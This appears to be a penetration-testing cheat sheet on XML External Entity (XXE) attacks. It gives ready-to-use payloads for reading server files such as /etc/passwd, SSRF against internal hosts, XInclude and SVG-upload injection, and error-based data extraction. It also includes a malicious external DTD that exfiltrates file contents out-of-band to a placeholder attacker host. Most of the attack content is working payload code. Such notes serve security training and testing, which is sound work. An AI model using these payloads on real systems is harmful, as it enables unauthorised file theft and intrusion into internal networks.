 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## <mark style="color:yellow;">Retrieve files</mark>

1. Introduce (or edit) a DOCTYPE element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

* Note: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.

```xml
<! -- Original -->
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## <mark style="color:yellow;">Perform SSRF attacks</mark>

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## <mark style="color:yellow;">Blind XXE</mark>

### <mark style="color:yellow;">Out-of-band (OAST) techniques</mark> <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://YOUR-DTD-URL/example.dtd` this malicious dtd.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-DTD-URL/example.dtd"> %xxe;]>
```

Note: This technique might not work with multiline files.

### <mark style="color:yellow;">Via error messages</mark> <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

Trigger an XML parsing error message with the file contents.&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{% hint style="info" %}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered)
{% endhint %}

## <mark style="color:yellow;">Hidden attack surface</mark>

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML ...

### <mark style="color:yellow;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

XInclude is a part of the XML specification that allows an XML document to be built from sub-documents

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### <mark style="color:yellow;">Via file upload</mark>

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity

### <mark style="color:yellow;">Via modified content type</mark>

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Sumbit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

